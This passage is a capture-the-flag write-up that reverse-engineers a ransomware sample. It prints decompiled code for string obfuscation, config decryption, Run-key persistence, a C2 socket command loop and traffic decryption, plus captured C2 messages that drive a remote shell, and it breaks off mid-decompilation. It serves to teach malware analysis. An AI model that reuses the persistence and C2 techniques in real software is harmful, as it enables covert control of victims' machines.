



# Capture Point 5353 3.0

## Ransomware Unchained

> A mysterious ransomware is on the loose! It locks files, executes secret commands, and whispers to a hidden C2 server. Can you analyze the artifacts, uncover the decryption key, and rescue the flag before it’s too late?
>
>  Author: N/A
>
> [`capture.pcapng`](capture.pcapng), [`sample.exe`](sample.exe)

Tags: _rev_

## Solution

This was a interesting reversing challenge with quite a couple of stages to jump over. The challenge comes with one `executable` file and one `network traffic capture`. Let's inspect the executable first, as we can assume the network traffic has to do something with the executable.

The main function is rather lengthy, so lets walk through it bit by bit:

```c
140001000    int64_t main()

140001000    {
140001000        void var_208;
14000100e        int64_t rax_1 = __security_cookie ^ &var_208;
14000100e        
140001035        if (CreateMutexW(nullptr, 0, sub_1400013b0("lgj}avvdg`k")))
140001035        {
14000103b            if (GetLastError() != ERROR_ALREADY_EXISTS)
140001046            {
                          // ...
14000135e                __security_check_cookie(rax_1 ^ &var_208);
14000136a                return 0;
140001046            }
140001388            std::ostream::operator<<(sub_140002ea0(std::cout, "Already Running."), sub_140003070);
140001035        }
140001035        
14000139b        __security_check_cookie(rax_1 ^ &var_208);
1400013a7        return 0;
140001000    }
```

The first part is pretty common practice to avoid multiple instances of the same application running. The application creates a named `mutex` that has system wide visibility. Therefore, when another instance tries to create a mutex with the same name, this call will fail. The name is a rather crypting string that is passed into function `sub_1400013b0`. Lets have a quick look what this function does.

```c
1400013b0    void* sub_1400013b0(char* arg1)

1400013b0    {
1400013b0        int64_t rbx = -1;
1400013dc        char* rsi = arg1;
1400013dc        
1400013e7        do
1400013e0            rbx += 1;
1400013e7         while (arg1[rbx]);
1400013e7        
1400013e9        int32_t rdi = (int32_t)(rbx * 2);
1400013ee        uint64_t _Size = (uint64_t)(rdi + 2);
1400013ee        
1400013f1        if (rdi >= 0xfffffffe)
1400013f1            _Size = -1;
1400013f1        
1400013f5        void* result = malloc(_Size);
140001409        memset(result, 0, (int64_t)(rdi + 2));
14000140e        int32_t i_1 = 0;
140001411        void* result_1 = result;
140001411        
140001416        if (rbx > 0)
140001416        {
14000141f            if (rbx < 0x20)
14000141f            {
1400014ed                label_1400014ed:
1400014ed                uint64_t i_2 = (uint64_t)(rbx - i_1);
140001509                uint64_t i;
140001509                
140001509                do
140001509                {
1400014f3                    result_1 += 2;
1400014f7                    uint16_t rax_6;
1400014f7                    rax_6 = *(uint8_t*)rsi ^ 0x2f;
1400014f9                    rsi = &rsi[1];
140001501                    *(uint16_t*)((char*)result_1 - 2) = rax_6 & 0xff;
140001505                    i = i_2;
140001505                    i_2 -= 1;
140001509                } while (i != 1);
14000141f            }
14000141f            else
14000141f            {
                        // ... big scary blob of code ...
14000141f            }
140001416        }
140001416        
140001528        return result;
1400013b0    }
```

The function is very simple, although it looks more scary on the first glance. It only takes a string as input and calculates an xor with `0x2f` on every character. The *scary* bit is doing the same thing, except on 32 byte blocks. A simplyfied* implementation would look like this:

```c
int DeobfuscateString(const char* value, char* buffer)
{
    int len = strlen(value);

    for (int i = 0; i < len; ++i) {
        buffer[i] = value[i] ^ 0x2f;
    }

    buffer[len] = 0;

    return len;
}
```

*simplified as the original function creates a wide char (utf-16) string for windows api calls and has some simd optimizations.

We can now deobfuscate the name of the mutex ourself and get `CHERNYYKHOD`. Moving on with the main function.

```c
// ...
14000106e                HMODULE hModule = GetModuleHandleW(nullptr);
140001090                HRSRC hResInfo = FindResourceA(GetModuleHandleW(nullptr), "DATA", "CONFIG");
140001090                
14000109c                if (!hResInfo)
14000132b                    std::ostream::operator<<(sub_140002ea0(std::cout, "Unable to decode config."), sub_140003070);
14000109c                else
14000109c                {
1400010a8                    uint32_t count = SizeofResource(hModule, hResInfo);
1400010b6                    HGLOBAL hResData = LoadResource(hModule, hResInfo);
1400010b6                    
1400010bf                    if (!hResData)
14000132b                        std::ostream::operator<<(sub_140002ea0(std::cout, "Unable to decode config."), sub_140003070);
1400010bf                    else
1400010bf                    {
1400010c8                        int64_t rax_6 = LockResource(hResData);
1400010c8                        
1400010dd                        if (!rax_6 || count < 0x42)
14000132b                            std::ostream::operator<<(sub_140002ea0(std::cout, "Unable to decode config."), sub_140003070);
1400010dd                        else
1400010dd                        {
1400010e5                            char* rax_7 = malloc((uint64_t)count);
1400010f6                            memset(rax_7, 0, (uint64_t)count);
140001104                            memcpy(rax_7, rax_6, count);
14000110e                            sub_140001750(rax_7, count);
140001113                            data_1400086f8 = rax_7;
// ...
```

This part reads a resource from the executable resource dictionary, copies the blob to a local buffer and calls `sub_140001750` on the buffer. As the name of the resource is `CONFIG/DATA` and the error message tell us `Unable to decode config` we can strongly assume this parts decodes a config structure, so we can also rename `sub_140001750` to `DecodeConfig`. 

The function is again rather lengthy, although the first part only deobfuscates a string (which results in `WHOANDWHEREISMYMASTER`) and converts the string from `wide-char` to `multi-byte` (basically utf-16 to utf-8).

```c
140001750    char* DecodeConfig(char* arg1, int32_t arg2)

140001750    {
140001750        char* r14 = arg1;
14000177b        void* lpWideCharStr = DeobfuscateString("xg`nakxgj}jf|bvbn|{j}");
140001780        char* rdi = nullptr;
1400017ac        int64_t r15 = (int64_t)WideCharToMultiByte(0xfde9, 0, lpWideCharStr, 0xffffffff, nullptr, 0, nullptr, nullptr);
1400017b2        PSTR lpMultiByteStr = malloc(r15);
1400017c3        memset(lpMultiByteStr, 0, r15);
1400017c8        int64_t r9 = -1;
1400017c8        
1400017d9        do
1400017d0            r9 += 1;
1400017d9         while (*(uint16_t*)((char*)lpWideCharStr + (r9 << 1)));
1400017d9        
1400017f9        WideCharToMultiByte(0xfde9, 0, lpWideCharStr, r9, lpMultiByteStr, r15, nullptr, nullptr);
/// ...
```

Next the function creates a 256 byte wide table and assignes every index with the index value. 

```c
/// ...
1400017ff        int64_t i_2 = 0x100;
140001806        char* rax_1 = j_operator new(0x100);
140001818        memset(&rax_1[1], 0, 0xff);
14000181d        int32_t r8_3 = 0;
140001820        int32_t i = 0;
140001822        char* rdx = rax_1;
140001822        
14000183a        do
14000183a        {
140001830            *(uint8_t*)rdx = i;
140001832            rdx = &rdx[1];
140001836            i += 1;
14000183a        } while (i < 0x100);
/// ...
```

This looks like a lookup table, or shuffle table and has the following structure after initialization:

```bash
lut[0] = 0
lut[1] = 1
lut[2] = 2
...
lut[255] = 255
```

The second part of the initialization uses the deobfuscated string (stored in `lpMultiByteStr`) to shuffle around the entries in the table. We can assume that `lpMultiByteStr` is actually a hardcoded `key`. There is a bit of tricky logic in this loop that `BinaryNinja` fails to recognize properly. But offset `14000186b` - `14000187e` is basically only `r8_3 = (r8_3 + key[r10 % rcx_3] + r11_1) % 256`, very simple.

```c
/// ...
14000183c        char* r9_1 = rax_1;
14000183f        int64_t r10 = 0;
140001899        char* result;
140001899        int64_t i_1;
140001899        
140001899        do
140001899        {
140001842            uint32_t r11_1 = (uint32_t)*(uint8_t*)r9_1;
140001846            int64_t rcx_3 = -1;
140001846            
140001857            do
140001850                rcx_3 += 1;
140001857             while (lpMultiByteStr[rcx_3]);
140001857            
14000186b            r8_3 = (r8_3 + (int32_t)lpMultiByteStr[COMBINE(0, r10) % rcx_3] + r11_1) & 0x800000ff;
14000186b            
140001872            if (r8_3 < 0)
14000187e                r8_3 = ((r8_3 - 1) | 0xffffff00) + 1;
14000187e            
140001881            char* rcx_4 = (int64_t)r8_3;
140001884            r10 += 1;
140001887            result = (uint64_t)*(uint8_t*)(rcx_4 + rax_1);
14000188b            *(uint8_t*)r9_1 = result;
14000188e            r9_1 = &r9_1[1];
140001891            *(uint8_t*)(rcx_4 + rax_1) = r11_1;
140001895            i_1 = i_2;
140001895            i_2 -= 1;
140001899        } while (i_1 != 1);
/// ...
```

The last part finally does the actual decoding. Simplify the `modulo 256` operations that BinaryNinja fails to recognize, the code is actually not hard to follow.

```c
14000189b        int32_t rdx_3 = 0;
14000189b        
1400018a0        if (arg2 > 0)
1400018a0        {
1400018f7            do
1400018f7            {
1400018a5                int32_t rax_5 = (int32_t)&rdi[1] & 0x800000ff;
1400018a5                
1400018aa                if (rax_5 < 0)
1400018b3                    rax_5 = ((rax_5 - 1) | 0xffffff00) + 1;
1400018b3                
1400018b5                rdi = (int64_t)rax_5;
1400018b8                uint32_t r9_2 = (uint32_t)*(uint8_t*)(rdi + rax_1);
1400018c0                rdx_3 = (rdx_3 + r9_2) & 0x800000ff;
1400018c0                
1400018c6                if (rdx_3 < 0)
1400018d0                    rdx_3 = ((rdx_3 - 1) | 0xffffff00) + 1;
1400018d0                
1400018d2                char* rcx_5 = (int64_t)rdx_3;
1400018d9                *(uint8_t*)(rdi + rax_1) = *(uint8_t*)(rcx_5 + rax_1);
1400018dc                *(uint8_t*)(rcx_5 + rax_1) = r9_2;
1400018e7                result = (uint64_t)(*(uint8_t*)(rdi + rax_1) + r9_2);
1400018ee                *(uint8_t*)r14 ^= *(uint8_t*)(result + rax_1);
1400018f1                r14 = &r14[1];
1400018f7            } while (rdi < arg2);
1400018a0        }
1400018a0        
140001917        return result;
140001750    }
```

A cleaned up reipmplementation of the functionality looks like this:

```c
void DecodeConfig(uint8_t* data, int size)
{
    char key[32];
    const int keyLength = DeobfuscateString("xg`nakxgj}jf|bvbn|{j}", key);

    uint8_t lut[256];
    for (int i = 0; i < 256; ++i) {
        lut[i] = i;
    }

    int index = 0;
    for (int i = 0; i < 256; ++i)
    {
        uint8_t current = lut[i];
        index = (index + key[i % keyLength] + current) % 256;
        uint8_t result = lut[index];
        lut[i] = result;
        lut[index] = current;
    }

    index = 0;
    for (int i = 0; i < size; ++i)
    {
        int next = (i + 1) % 256;
        int nextValue = lut[next];
        index = (index + nextValue) % 256;
        lut[next] = lut[index];
        lut[index] = nextValue;
        int result = (uint8_t)(lut[next] + nextValue);
        data[i] = data[i] ^ lut[result];
    }
}
```

Wow, now we can decode the config. For this we need to extract the resource from the executable. We can use [`Resource Hacker`](https://www.angusj.com/resourcehacker/) for this.



After loading and decoding the file, we get a `ip address`, a lot of null bytes and a `P`:
```bash
192.168.138.67\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P\x00
```

Good, lets move on with `main` again.

```c
// ...
14000111a                            uint8_t* lpData_1 = sub_140001530();
140001127                            HKEY hKey_1;
140001127                            
140001127                            if (lpData_1)
140001127                            {
140001132                                hKey_1 = nullptr;
140001132                                
14000115b                                if (!RegOpenKeyExW(-0xffffffff80000001, u"Software\Microsoft\Windows\Curre…", 0, KEY_ALL_ACCESS, &hKey_1))
14000115b                                {
140001161                                    HKEY hKey = hKey_1;
140001161                                    
140001169                                    if (hKey)
140001169                                    {
140001174                                        int32_t var_1c8 = 0;
140001178                                        int32_t* lpcbData = &var_1c8;
140001185                                        uint8_t* lpData = nullptr;
140001191                                        int32_t lpType = 1;
140001191                                        
1400011a2                                        if (RegQueryValueExW(hKey, u"Cherny", nullptr, &lpType, lpData, lpcbData) == ERROR_FILE_NOT_FOUND)
1400011a2                                        {
1400011a4                                            int64_t rax_10 = -1;
1400011b9                                            bool cond:0_1;
1400011b9                                            
1400011b9                                            do
1400011b9                                            {
1400011b0                                                cond:0_1 = *(uint16_t*)(lpData_1 + (rax_10 << 1) + 2);
1400011b5                                                rax_10 += 1;
1400011b9                                            } while (cond:0_1);
1400011c7                                            lpcbData = (int32_t)((rax_10 << 1) + 2);
1400011e0                                            RegSetValueExW(hKey_1, u"Cherny", 0, REG_SZ, lpData_1, lpcbData);
1400011a2                                        }
1400011a2                                        
1400011eb                                        CloseHandle(hKey_1);
140001169                                    }
14000115b                                }
140001127                            }
// ...
```

This part is again very simple. It writes some value (coming from `sub_140001530`) to `\\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\Cherny`. We know this by inspecting the [`RegOpenKeyExW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexw) call, which takes a `hKey` as first parameter. There are a set of [`predefined key`](https://learn.microsoft.com/en-us/windows/win32/sysinfo/predefined-keys) and by checking the `winreg.h` header we can see `HKEY_CURRENT_USER` corresponds to `0x80000001`. 

Ok, enough of this excursion to the windows api. The [`Run Registry Key`](https://learn.microsoft.com/en-us/windows/win32/setupapi/run-and-runonce-registry-keys) is a typical place where things can be registered that need to be run after a user logged in. We can just assume the executable registers itself so it's started automatically again after the next user login. But validating is better than guessing, so we check the function `sub_140001530`.

```c
140001530    int64_t sub_140001530()
140001530    {
140001530        void var_2a8;
14000154c        int64_t rax_1 = __security_cookie ^ &var_2a8;
140001564        void lpFindFileData;
140001564        memset(&lpFindFileData, 0, 0x250);
14000156d        int64_t result = 0;
140001575        uint64_t r13 = (uint64_t)GetCurrentDirectoryW(0, nullptr);
140001578        int64_t rsi = -1;
14000157f        uint64_t r15 = r13 << 1;
14000158a        uint64_t _Size = r15 + 4;
14000158a        
14000158e        if (r15 >= -4)
14000158e            _Size = -1;
14000158e        
140001592        wchar16* rax_3 = malloc(_Size);
1400015a4        memset(rax_3, 0, r15 + 4);
1400015b4        GetCurrentDirectoryW((int32_t)(r13 << 1), rax_3);
1400015c6        *(uint32_t*)((char*)rax_3 + ((uint64_t)(uint32_t)(r13 - 1) << 1)) = 0x2a005c;
1400015ce        HANDLE hFindFile = FindFirstFileW(rax_3, &lpFindFileData);
1400015da        void pszPath;
1400015da        
1400015da        if (hFindFile != -1)
1400015da        {
1400015fd            void var_25a;
1400015fd            
1400015fd            if (PathFindExtensionW(&pszPath) != u".exe")
1400015fd            {
140001669                while (FindNextFileW(hFindFile, &lpFindFileData))
140001669                {
140001669                    if (!lstrcmpiW(PathFindExtensionW(&pszPath), u".exe"))
140001690                    {
140001697                        int64_t rbx_2 = -1;
1400016aa                        bool cond:1_1;
1400016aa                        
1400016aa                        do
1400016aa                        {
1400016a0                            cond:1_1 = *(uint16_t*)(&var_25a + (rbx_2 << 1));
1400016a6                            rbx_2 += 1;
1400016aa                        } while (cond:1_1);
1400016b0                        int32_t rax_12 = (int32_t)(((uint64_t)(uint32_t)(rbx_2 + r13) << 1) + 2);
1400016bb                        int64_t result_2 = malloc((uint64_t)rax_12);
1400016c9                        result = result_2;
1400016cc                        memset(result_2, 0, (uint64_t)rax_12);
1400016da                        memcpy(result, rax_3, r15);
1400016ec                        memcpy(r15 + result, &pszPath, rbx_2 * 2);
140001690                    }
140001669                }
1400015fd            }
1400015fd            else
1400015fd            {
14000160d                bool cond:0_1;
14000160d                
14000160d                do
14000160d                {
140001604                    cond:0_1 = *(uint16_t*)(&var_25a + (rsi << 1));
140001609                    rsi += 1;
14000160d                } while (cond:0_1);
140001613                int32_t rax_7 = (int32_t)(((uint64_t)(uint32_t)(rsi + r13) << 1) + 2);
14000161e                int64_t result_1 = malloc((uint64_t)rax_7);
14000162c                result = result_1;
14000162f                memset(result_1, 0, (uint64_t)rax_7);
14000163d                memcpy(result, rax_3, r15);
14000164f                memcpy(r15 + result, &pszPath, rsi * 2);
1400015fd            }
1400015da        }
140001710        FindClose(hFindFile);
140001724        __security_check_cookie(rax_1 ^ &var_2a8);
140001741        return result;
140001530    }
```

And yes, looks like we guessed right. The program searches for files with `exe` extension in the current working directory. If found it returns the working directory name plus the filename. 

> Also, one note at a side. The program really consequently leaks memory everywhere.

Lets move on to the last part of the main function. It's fairly straight foward. Initializing [`winsock`] by calling [`WSAStartup`](https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup). Then creating a socket that uses the ip address and port from the decoded config, opening a connection to the socket, creating a buffer to read from the socket (and leaking memory again) and start reading from the socket.

```c
/// ...
1400011f4                            int64_t var_1d0_1 = 0;
140001203                            __builtin_memset(&data_140008700, 0, 0x40);
140001227                            void lpWSAData;
140001227                            
140001227                            if (!WSAStartup(0x202, &lpWSAData))
140001227                            {
140001239                                hKey_1 = 2;
14000124f                                *(uint16_t*)((char*)hKey_1)[2] = htons(*(uint16_t*)(data_1400086f8 + 0x40));
140001263                                *(uint32_t*)((char*)hKey_1)[4] = inet_addr(data_1400086f8);
140001267                                SOCKET s = socket(2, SOCK_STREAM, 6);
140001287                                int32_t i;
140001287                                
140001287                                do
14000127e                                    i = connect(s, &hKey_1, 0x10);
140001287                                 while (i == 0xffffffff);
14000128e                                data_140008738 = s;
140001295                                PSTR buf = malloc(0x400);
1400012a9                                memset(buf, 0, 0x400);
1400012a9                                
1400012c9                                if (recv(data_140008738, buf, 0x400, 0))
1400012c9                                {
140001303                                    int32_t i_1;
140001303                                    
140001303                                    do
140001303                                    {
1400012d3                                        sub_1400020c0(buf);
1400012e3                                        memset(buf, 0, 0x400);
1400012fb                                        i_1 = recv(data_140008738, buf, 0x400, 0);
140001303                                    } while (i_1);
1400012c9                                }
1400012c9                                
14000132b                                std::ostream::operator<<(sub_140002ea0(std::cout, "Socket closed gracefully."), sub_140003070);
140001227                            }
1400010dd                        }
1400010bf                    }
14000109c                }
14000109c                
14000135e                __security_check_cookie(rax_1 ^ &var_208);
14000136a                return 0;
/// ...
```

The data coming through the socket is passed to `sub_1400020c0`, which would be the next part to look at. This is some long piece of code, so we only look at the important parts, because major parts are not needed.

```c
1400020c0    HANDLE sub_1400020c0(char* arg1)

1400020c0    {
1400020c0        void var_148;
1400020df        int64_t rax_1 = __security_cookie ^ &var_148;
1400020e6        int64_t rdi = -1;
1400020f0        int64_t rax_2 = -1;
1400020fc        bool cond:0_1;
1400020fc        
1400020fc        do
1400020fc        {
1400020f3            cond:0_1 = arg1[rax_2 + 1];
1400020f8            rax_2 += 1;
1400020fc        } while (cond:0_1);
1400020fc        
140002103        if (arg1[rax_2 - 1] == 0xa)
140002103        {
140002105            int64_t rax_3 = -1;
140002119            bool cond:1_1;
140002119            
140002119            do
140002119            {
140002110                cond:1_1 = arg1[rax_3 + 1];
140002115                rax_3 += 1;
140002119            } while (cond:1_1);
14000211b            arg1[rax_3 - 1] = 0;
140002103        }
140002103        
140002123        int64_t rdx = -1;
140002126        int32_t var_f8 = 0;
140002126        
140002137        do
140002130            rdx += 1;
140002137         while (arg1[rdx]);
// ...
```

First the function taked the input buffer, calculates the length of the buffer. If the buffer contains an line break (`\n = 0xa`) as last character, it replaces the character with a string terminator (`\0`) and recalculates the length again.

```c
// ...
14000213c        int64_t var_118 = 0;
140002146        int64_t var_120 = 0;
14000214b        int32_t* var_128 = &var_f8;
140002154        CryptStringToBinaryA();
14000215a        int32_t rcx = var_f8;
14000215e        uint64_t _Size = (uint64_t)(rcx + 1);
14000215e        
140002161        if (rcx >= 0xffffffff)
140002161            _Size = -1;
140002161        
140002165        char* rax_4 = malloc(_Size);
14000217b        memset(rax_4, 0, (uint64_t)(var_f8 + 1));
140002180        int64_t rdx_1 = -1;
140002180        
14000218a        do
140002183            rdx_1 += 1;
14000218a         while (arg1[rdx_1]);
14000218a        
1400021ac        CryptStringToBinaryA(arg1, rdx_1, 1, rax_4, &var_f8, 0, 0);
// ...
```

Then the function uses [`CryptStringToBinaryA`](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptstringtobinarya) to `base64` decode the input buffer. The two call approach is quite common with some winapi functionality. The first call is used to get the output buffer length.

> A pointer to a buffer that receives the returned sequence of bytes. If this parameter is NULL, the function calculates the length of the buffer needed and returns the size, in bytes, of required memory in the DWORD pointed to by pcbBinary.

The second call *has* a valid pointer set to `pbBinary` and returns the decoded value to this buffer (also, the buffer leaks again here). `dwFlags` is set to `1` that corresponds to `CRYPT_STRING_BASE64`, therefore we know the input is assumed to be `base64 encoded`.

Then the function checks the first byte of the decoded payload. It differenciates between `D` and `E`. In case it's a `D` the remaining part of the payload is tokenized with an `|` as delimiter (`0x7c`). The first token is stored in `rbx_1` and the second token (that is the rest after the first split) is stored in `lbBuffer`. In case of `E` it does the same, but calls `sub_1400019f0` on the remaining payload before tokenizing.

```c
/// ...
1400021b2        char* _Context = nullptr;
1400021b7        char* rbx_1 = nullptr;
1400021ba        char _Delimiter = 0x7c;
1400021be        char* lpBuffer = nullptr;
1400021c4        if (*(uint8_t*)rax_4 == 0x44)
1400021c4        {
1400021d3            char* rax_5 = strtok_s(&rax_4[1], &_Delimiter, &_Context);
1400021d9            rbx_1 = rax_5;
1400021d9            
1400021df            if (rax_5)
1400021f2                lpBuffer = strtok_s(nullptr, &_Delimiter, &_Context);
1400021c4        }
1400021c4        
1400021f8        if (*(uint8_t*)rax_4 == 0x45)
1400021f8        {
140002215            char* rax_8 = strtok_s(sub_1400019f0(&rax_4[1], var_f8 - 1), &_Delimiter, &_Context);
14000221b            rbx_1 = rax_8;
14000221b            
140002221            if (rax_8)
140002234                lpBuffer = strtok_s(nullptr, &_Delimiter, &_Context);
1400021f8        }
1400021f8        
140002237        int32_t rcx_6 = 0;
14000223a        int64_t rax_10 = -1;
14000223a        
140002246        do
140002240            rax_10 += 1;
140002246         while (rbx_1[rax_10]);
140002246        
14000224a        HANDLE result;
14000224a        int128_t var_e8;
14000224a        
14000224a        if (rax_10 <= 0)
14000224a        {
140002721            label_140002721:
140002721            __builtin_strncpy(&var_e8, "Invalid Command\n", 0x11);
140002721            
14000272d            do
140002726                rdi += 1;
14000272d             while (*(uint8_t*)(&var_e8 + rdi));
14000272d            
140002741            result = send(data_140008738, &var_e8, rdi, 0);
140002741            
14000274a            if (result == 0xffffffff)
140002769                result = std::ostream::operator<<(sub_140002ea0(std::cout, "Sending Failed"), sub_140003070);
14000224a        }
14000224a        else
14000224a        {
/// ...
14000224a        }
140002776        __security_check_cookie(rax_1 ^ &var_148);
140002791        return result;
1400020c0    }
```

Then the function calculates the length of the first token. If it's less or zero 0 it sends back `Invalid Command\n` to the server. So we can assume that the first token is some sort of command that the server can invoke on the client and the remaining part might be command parameters.

```c
// ...
140002250            uint64_t i_1 = (uint64_t)rax_10;
140002270            uint64_t i;
140002270            
140002270            do
140002270            {
140002260                result = (uint64_t)(int32_t)*(uint8_t*)rbx_1;
140002263                rbx_1 = &rbx_1[1];
14000226a                rcx_6 = RORD(rcx_6, 0xd) + result;
14000226c                i = i_1;
14000226c                i_1 -= 1;
140002270            } while (i != 1);
140002270
140002278            if (rcx_6 == 0xd49a66b)
14000227a                data_1400086f0 = lpBuffer;
140002278            else
140002278            {
// ...
140002278            }
// ...
```

Then the function calculates a hash of the command, and the rest is a fairly straight forward switch-case construct that invokes certain functionality based on the command that is sent.

So, we are that far in analyzing the binary. Lets have a look at the network traffic capture. We know the server ip `192.168.138.67`, so we can filter the events down already a bit in wireshark (filter `(ip.dst==192.168.138.67 || ip.src==192.168.138.67) && tcp.port==80`).

If we follow this TCP stream we get:

```bash
<server> REtFWUVYQ0h8RU5DUllQVFRSQUZGSUswNw
<server> RS1J1SxUJcq0y6CmpvlFHTUxUub0NrsRb96TEwoWI5GFR0RM/jkk9ZA=
<client>
Microsoft Windows [Version 10.0.19044.1645]
(c) Microsoft Corporation. All rights reserved.

C:\Users\saura\data>

<server> RXUBvuF7XzYu3La0O/fiqLx3nHSXTn7Ghw==
<client> cd %temp%

<client> C:\Users\saura\AppData\Local\Temp>
<server> RT6v61YF2uq+B5OOcTNe7h8=RT6v61YF2uq+B5OOcTNe7h8=
<server> RSPPpIhlKGAsCmnkR3kD+uD5g30DH199VGWitl4BFgiF7LhZMn4GWFBrg40R9ty2p1pAStWd399I 
<server> RSPPpIhlKGAsCmnkR3kD+uD5g30DH199VGWitl4BFgiF7LhZMn4GWFDRIh1agXJSpaR7Fxcm+fFl 
```

So, let's have a look at the first message that comes from the server `REtFWUVYQ0h8RU5DUllQVFRSQUZGSUswNw`. If we decode this we have `DKEYEXCH|ENCRYPTTRAFFIK07`. The first byte is the marker that decides to call `sub_1400019f0` on the payload or not. Here we have `D` so the rest of the payload is plaintext, as we can observe here. Then the application would split the payload at `|`, giving us the command `KEYEXCH` and the parameter `ENCRYPTTRAFFIK07`. 

```py
def ror(value, bits):
    bit_size = 32
    return ((value >> bits) | (value << (bit_size - bits))) & ((1 << bit_size) - 1)

def hash(value):
    result = 0
    for i, c in enumerate(value):
        result = ror(result, 0xd) + c
    return result
```

If we create the hash for the command we get `0xd49a66b`. We already saw this in the decompiled code. This sets the key to whatever the server sends, probably for future encrypted traffic.

```c
140002278            if (rcx_6 == 0xd49a66b)
14000227a                data_1400086f0 = lpBuffer;
```

The rest of the messages actually seems to be encrypted. If we base64 decode them we get only type markers plus some bytes.

```bash
$ echo "RS1J1SxUJcq0y6CmpvlFHTUxUub0NrsRb96TEwoWI5GFR0RM/jkk9ZA="|base64 -d
E-I�,T%ʴˠ���E51R��6�oޓ
#��GDL�9$��
```

Ok, we need to see how we can decrypt the data. We know the key at least. Our best bet is `sub_1400019f0` that is uses for `E` typed messages. Lets look into it.

```c
1400019f0    int32_t* sub_1400019f0(void* arg1, int32_t arg2)

1400019f0    {
1400019f0        char* r9 = data_1400086f0;
140001a47        int32_t rcx_2 = (int32_t)r9[4] << 8 | (int32_t)r9[5];
140001a49        int32_t var_28 = (((int32_t)*(uint8_t*)r9 << 8 | (int32_t)r9[1]) << 8 | (int32_t)r9[2]) << 8 | (int32_t)r9[3];
140001a66        int32_t var_24 = (rcx_2 << 8 | (int32_t)r9[6]) << 8 | (int32_t)r9[7];
140001a8c        int32_t var_20 = (((int32_t)r9[8] << 8 | (int32_t)r9[9]) << 8 | (int32_t)r9[0xa]) << 8 | (int32_t)r9[0xb];
140001aad        int32_t var_1c = (((int32_t)r9[0xc] << 8 | (int32_t)r9[0xd]) << 8 | (int32_t)r9[0xe]) << 8 | (int32_t)r9[0xf];
140001ab2        int32_t* result = malloc((uint64_t)arg2);
140001ac3        memset(result, 0, (uint64_t)arg2);
140001ac3        
140001aca        if (arg2)
140001aca        {
140001ada            void* rcx_23 = (char*)arg1 + 2;
140001ae3            uint64_t i_1 = (uint64_t)(((arg2 - 1) >> 3) + 1);
140001ae5            int32_t* result_1 = result;
140002093            uint64_t i;
140002093            
140002093            do
140002093            {
140001af4                int32_t rbx_1 = -0x3910c8e0;
140001afc                uint64_t r9_1 = 0xc6ef3720;
140001b04                int64_t j_1 = 2;
140001b27                uint32_t r10_7 = (((uint32_t)*(uint8_t*)((char*)rcx_23 - 2) << 8 | (uint32_t)*(uint8_t*)((char*)rcx_23 - 1)) << 8 | (uint32_t)*(uint8_t*)rcx_23) << 8 | (uint32_t)*(uint8_t*)((char*)rcx_23 + 1);
140001b44                uint32_t r11_7 = (((uint32_t)*(uint8_t*)((char*)rcx_23 + 2) << 8 | (uint32_t)*(uint8_t*)((char*)rcx_23 + 3)) << 8 | (uint32_t)*(uint8_t*)((char*)rcx_23 + 4)) << 8 | (uint32_t)*(uint8_t*)((char*)rcx_23 + 5);
140002074                int64_t j;
140002074                
140002074                do
140002074                {
140001b7b                    int32_t r11_8 = r11_7 - (((r10_7 >> 5 ^ r10_7 << 4) + r10_7) ^ ((&var_28)[(uint64_t)(uint32_t)(r9_1 >> 0xb) & 3] + rbx_1));
140001ba7                    int32_t r10_8 = r10_7 - (((r11_8 >> 5 ^ r11_8 << 4) + r11_8) ^ ((&var_28)[(uint64_t)(rbx_1 + 0x61c88647) & 3] + rbx_1 + 0x61c88647));
140001bca                    int32_t r11_9 = r11_8 - (((r10_8 >> 5 ^ r10_8 << 4) + r10_8) ^ ((&var_28)[(uint64_t)((rbx_1 + 0x61c88647) >> 0xb) & 3] + rbx_1 + 0x61c88647));
